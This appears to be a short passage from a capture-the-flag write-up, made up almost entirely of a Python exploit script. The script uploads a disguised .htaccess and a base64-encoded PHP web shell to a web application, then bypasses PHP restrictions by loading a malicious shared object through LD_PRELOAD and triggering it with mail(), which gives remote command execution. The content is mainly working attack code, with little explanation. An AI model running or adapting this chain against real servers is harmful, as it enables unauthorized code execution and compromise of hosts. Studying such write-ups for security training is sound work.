 ```python
        "image" : (name, content, 'image/png'),
        "upload" : (None, "Submit Query", None)
    }

    response = requests.post(URL, files=data, cookies=COOKIES)

HT_ACCESS = VALID_WBMP + b"""
AddType application/x-httpd-php .corb3nik
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.corb3nik"
"""
TARGET_FILE = VALID_WBMP + b"AA" + base64.b64encode(b"""
<?php
move_uploaded_file($_FILES['captcha_solver']['tmp_name'], '/tmp/captcha_solver.corb3nik');
move_uploaded_file($_FILES['evil']['tmp_name'], '/tmp/corb3nik_you_idiot');
putenv('LD_PRELOAD=/tmp/corb3nik_you_idiot');
putenv("_evilcmd=chmod +x /tmp/captcha_solver.corb3nik");
mail('a','a','a');
putenv("_evilcmd=cd / && /tmp/captcha_solver.corb3nik");
mail('a','a','a');
echo file_get_contents('/tmp/_0utput.txt');
?>
""")

upload_content("..htaccess", HT_ACCESS)
upload_content("shell.corb3nik", TARGET_FILE)
upload_content("trigger.corb3nik", VALID_WBMP)


files = { "evil" : open("../payloads/evil.so", "rb"),
         "captcha_solver" : open("../payloads/captcha_solver", "rb") }
response = requests.post(URL + "/images/" + RANDOM_DIRECTORY + "/trigger.corb3nik", files=files)
print(response.text)
```



## It's funny
